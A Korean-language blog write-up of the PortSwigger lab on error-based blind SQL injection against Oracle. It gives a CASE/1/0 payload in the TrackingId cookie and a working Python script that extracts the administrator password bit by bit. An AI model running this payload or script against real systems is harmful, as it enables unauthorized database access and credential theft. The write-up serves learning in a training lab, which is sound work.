


+++
url = '/write-up/portswigger/sql-injection/write-up-portswigger---blind-sql-injection-with-conditional-errors/'
date = '2026-05-21T13:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Blind SQL injection with conditional errors'
summary = "응답 차이가 전혀 없고 오류 발생 여부만 관측 가능한 환경에서, CASE 문으로 조건에 따라 오류를 강제 유발해 비밀번호를 비트 단위로 추출하는 Error-Based Blind SQL Injection 풀이 (Oracle)"
toc = true
tags = ["SQL Injection", "Blind SQLi", "Error-Based", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

> 

Tracking Cookie 값이 SQL 쿼리에 직접 사용되며, 이 지점에 Blind SQL Injection 취약점이 존재한다.  
쿼리 결과는 물론 결과 행의 반환 여부조차 응답으로 구분할 수 없지만, 쿼리에서 오류가 발생하면 애플리케이션이 Custom Error를 반환한다. 이 오류 발생 여부를 신호로 삼아 administrator 계정의 비밀번호를 추출하고 로그인하면 문제가 해결된다.

### SQL Injection 진단

요청은 다음과 같으며, `TrackingId` 쿠키가 주입 지점이다.

```http
GET /filter?category=Lifestyle HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: TrackingId=<tracking-id>; session=<session>
```

오류 발생 여부만 알 수 있으므로, 먼저 DBMS 종류를 파악한다. 문자열 사이에 `'||'` 를 삽입했을 때 오류가 발생하지 않으므로 PostgreSQL 또는 Oracle로 좁혀지고, Oracle에서만 사용하는 `dual` 테이블을 사용했을 때도 오류가 없으므로 대상 DBMS는 Oracle로 판단된다.

DBMS를 확인했으니 Oracle 문법에 맞춰 Error-Based 조건 페이로드를 구성한다. 조건이 참일 때만 `1/0` 연산으로 오류를 강제 유발하는 형태다.

```sql
'AND 1=(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) OR 'foo'='
```

---

## 익스플로잇

앞서 구성한 조건 페이로드를 이용해, 비밀번호를 비트 단위로 추출하는 스크립트를 작성한다.  
`SUBSTR` 로 문자 하나를 잘라 `ASCII` 로 코드값을 구한 뒤, Oracle의 `BITAND` 연산으로 각 비트를 검사한다. 조건이 참이면 `CASE` 가 정상 값을 반환하고, 거짓이면 `1/0` 으로 오류가 발생한다. 따라서 오류(Internal Server Error) 유무로 각 비트의 값을 판별할 수 있다.

```python
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

HOST = "<lab-id>.web-security-academy.net"
TRACKING_ID = "<your-tracking-id>"
SESSION = "<your-session>"

def exploit():
    base_url = f"https://{HOST}/filter?category=Lifestyle"
    flag = ""
    for pos in range(1, 100):
        bit = ""
        for seq in range(0, 8):
            # 추출 대상 쿼리 (필요에 따라 교체)
            # SELECT banner FROM v$version
            value = "SELECT password FROM users WHERE username='administrator'"
            condition = f"BITAND(ASCII(SUBSTR(({value}),{pos},1)),{2**seq})={2**seq}"
            payload = f"'AND 1=(CASE WHEN {condition} THEN 1 ELSE 1/0 END) OR 'foo'='"
            cookies = {
                "TrackingId": TRACKING_ID + payload,
                "session": SESSION,
            }
            response = requests.get(base_url, verify=False, cookies=cookies)
            bit += "0" if "Internal Server Error" in response.text else "1"
        if bit == "00000000":
            break
        # BITAND는 최하위 비트(seq=0)부터 수집되므로, 정수 변환 전에 뒤집는다
        char = chr(int(bit[::-1], 2))
        flag += char
        print(f"\rCurrent Value: {flag}", end="")
    print(f"\nExtracted Value: {flag}")

exploit()
```

스크립트를 실행하면 비밀번호가 추출된다.

```
Current Value: oiw4367uua7xdi1gfl2j
Extracted Value: oiw4367uua7xdi1gfl2j
```

추출한 administrator 계정 정보로 로그인하면 문제가 해결된다.



---

## 정리

Error-Based Blind SQL Injection은 조건의 참·거짓에 따른 응답 내용 차이가 전혀 없고, 오직 오류 발생 여부만 관측할 수 있을 때 사용한다.  
`CASE WHEN` 으로 조건이 특정 진리값일 때만 `1/0` 같은 런타임 오류를 강제 유발하고, 그 오류 유무로 조건의 참·거짓을 판별한다. 앞의 conditional responses 랩과 데이터를 추론하는 원리는 동일하며, 판별 신호가 "응답 내용의 차이"가 아니라 "오류 발생 여부"라는 점만 다르다.